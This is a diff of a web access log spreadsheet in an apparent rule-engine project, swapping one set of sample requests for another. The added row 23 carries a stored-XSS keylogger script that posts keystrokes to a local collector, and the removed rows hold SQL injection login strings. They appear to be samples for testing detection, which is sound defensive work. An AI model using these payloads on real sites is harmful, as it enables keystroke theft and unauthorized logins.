

Before and after one commit to cyberhub2025/Rule-Engine, an Excel workbook: raw_logs.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; addresses are those after the commit; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/raw_logs.xlsx (sheet Sheet1)
+++ b/raw_logs.xlsx (sheet Sheet1)
-B18 (Date): 12/Apr/2026
+B18 (Date): 21/Apr/2026
-C18 (Time): 23:02:42
+C18 (Time): 10:54:32
-E18 (URL): /
+E18 (URL): /static/js/main.js
-F18 (Status Code): 302
+F18 (Status Code): 304
+row 19: 127.0.0.1 | 21/Apr/2026 | 10:54:40 | GET | /comments/add?name=admin6&comment=soumyadeepadak | 200
-B20:B22 (Date): 12/Apr/2026
+B20:B22 (Date): 21/Apr/2026
-C20:C21 (Time): 23:02:57
+C20:C21 (Time): 10:54:40
-E20 (URL): /login
+E20 (URL): /comments
-E21 (URL): /login/
+E21 (URL): /static/css/style.css
-F21 (Status Code): 404
+F21 (Status Code): 304
-C22 (Time): 23:04:40
+C22 (Time): 10:54:40
-E22 (URL): /
+E22 (URL): /static/js/main.js
-F22 (Status Code): 302
+F22 (Status Code): 304
+row 23: 127.0.0.1 | 21/Apr/2026 | 10:55:10 | GET | /comments/add?name=admin7&comment=<script>let+k%3D'';document.onkeydown%3De%3D>{(k%2B%3De.key%2B'+').length>50%26%26fetch('http://127.0.0.1:5001/log',{method:'POST',body:k});}</script>%0A | 200
-B24 (Date): 12/Apr/2026
+B24 (Date): 21/Apr/2026
-C24 (Time): 23:04:40
+C24 (Time): 10:55:10
-E24 (URL): /login
+E24 (URL): /comments
+row 25: 127.0.0.1 | 21/Apr/2026 | 10:55:10 | GET | /static/css/style.css | 304
-B26:B28 (Date): 12/Apr/2026
+B26:B28 (Date): 21/Apr/2026
-C26 (Time): 23:04:40
+C26 (Time): 10:55:10
-E26 (URL): /login/
+E26 (URL): /static/js/main.js
-F26 (Status Code): 404
+F26 (Status Code): 304
-C27 (Time): 23:15:09
+C27 (Time): 10:56:10
-E27 (URL): /login?username=imon'+OR+'1'%3D'1&password=12345
+E27 (URL): /comments/add?name=admin710&comment=%0Ashuvojitff
-C28 (Time): 23:15:26
+C28 (Time): 10:56:10
-E28 (URL): /login?username=imon'+OR+'1'%3D'1'&password=12345
+E28 (URL): /comments
+row 29: 127.0.0.1 | 21/Apr/2026 | 10:56:10 | GET | /static/css/style.css | 304
+row 30: 127.0.0.1 | 21/Apr/2026 | 10:56:10 | GET | /static/js/main.js | 304
-B31:B32 (Date): 12/Apr/2026
+B31:B32 (Date): 21/Apr/2026
-C31 (Time): 23:15:40
+C31 (Time): 10:56:17
-E31 (URL): /login?username=admin'+OR+'1'%3D'1'&password=12345
+E31 (URL): /comments/add?name=admin710&comment=imonnbhh
-C32 (Time): 23:16:24
+C32 (Time): 10:56:17
-E32 (URL): /login?username=admin'+OR+'1'%3D'1'&password=1234
+E32 (URL): /comments
+row 33: 127.0.0.1 | 21/Apr/2026 | 10:56:17 | GET | /static/css/style.css | 304
```
Also changed, not shown: 27 added rows and 71 edited cells elsewhere in this sheet, threat_logs.xlsx, 13 other files.
